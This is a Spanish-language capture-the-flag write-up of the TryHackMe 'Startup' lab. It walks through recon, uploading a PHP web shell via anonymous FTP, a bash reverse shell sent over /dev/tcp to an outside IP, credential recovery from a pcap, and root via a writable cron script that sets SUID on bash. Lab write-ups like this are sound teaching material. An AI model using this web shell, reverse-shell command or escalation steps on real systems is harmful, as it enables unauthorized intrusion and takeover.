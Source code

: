 ```yaml
---
layout: single
title: StartUp - TryHackMe
excerpt: " Startup is a boot2root challenge available on TryHackMe. This is an easy level box which includes compromising a web server by uploading our web shell via FTP and then exploiting a cronjob to get the root shell. "
date: 2022-09-30
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-startup/startup.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - php
  - wireshark
  - ftp
  - suid
  - cronjob
---
```


Startup is a boot2root challenge available on TryHackMe. This is an easy level box which includes compromising a web server by uploading our web shell via FTP and then exploiting a cronjob to get the root shell.

# # Summary
- IP: 10.10.113.192
- Ports: 21,22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 21 -> vsftpd 3.0.3
	- 22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
	- 80 -> Apache httpd 2.4.18 ((Ubuntu))

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Entramos a ftp como anonymous y vemos dos archivos y una carpeta; un archivo es una imagen sin relevancia y el otro es una nota la cual contiene un nombre potencial "maya".

- Analizamos la página, no contiene nada relevante; analizamos los directorios:

```bash
$sudo gobuster dir -u 10.10.147.217 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Analizamos el directorio "files" y nos damos cuenta que es el mismo lugar en el que se alojan los archivos subidos por ftp como anonymous, aprovechamos esto para subir un archivo PHP que nos brinde un parámetro "cmd" que nos permita ejecutar un RCE:

nano rev_shell

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

```bash
ftp 10.10.147.217
anonymous
put /home/dante/Tryhackme/startup/content/shell.php /ftp/shell.php
```


- Ahora vamos al directorio "files" de la web, abrimos el archivo envenenado y ejecutamos el comando para entablar una reverse shell:

http://10.10.147.217/files/ftp/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.18.101.123/443%200%3E%261%22

- Hacemos tratamiento de tty; hacemos búsqueda de archivos que nos puedan ayudar a escalar privilegios, encontramos en el directorio raiz la carpeta "incidents" la abrimos y vemos un archivo "pcapng" el cual se puede analizar con wireshark, lo descargamos a nuestra máquina atacante montando un servidor http con python.

- Analizamos el archivo con wireshark, y en uno de los paquetes encontramos la credencial "c4ntg3t3n0ughsp1c3" para la que podría servir con el usuario "lennie":

- Accedemos como "Lennie"  por ssh y encontramos la primera FLAG.


# ESCALANDO PRIVILEGIOS:

- En el directorio de lennie enocntramos una carpeta "scripts" la abrimos, y dentro hay una script en bash, la analizamos:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

- Si hacemos ls -l podemos ver que este script se ejecuta como root, sin embargo no tenemos permisos para modificarlo, en el script ejecuta también "print.sh", este sí que podemos modificarlo, así que le metemos un comando que otorgue permisos SUID a la bash:

```bash
nano /etc/print.sh
chmod u+s /bin/bash

/bin/bash -p 

#root
```

- Ya somos ROOT y podemos ver la FLAG.
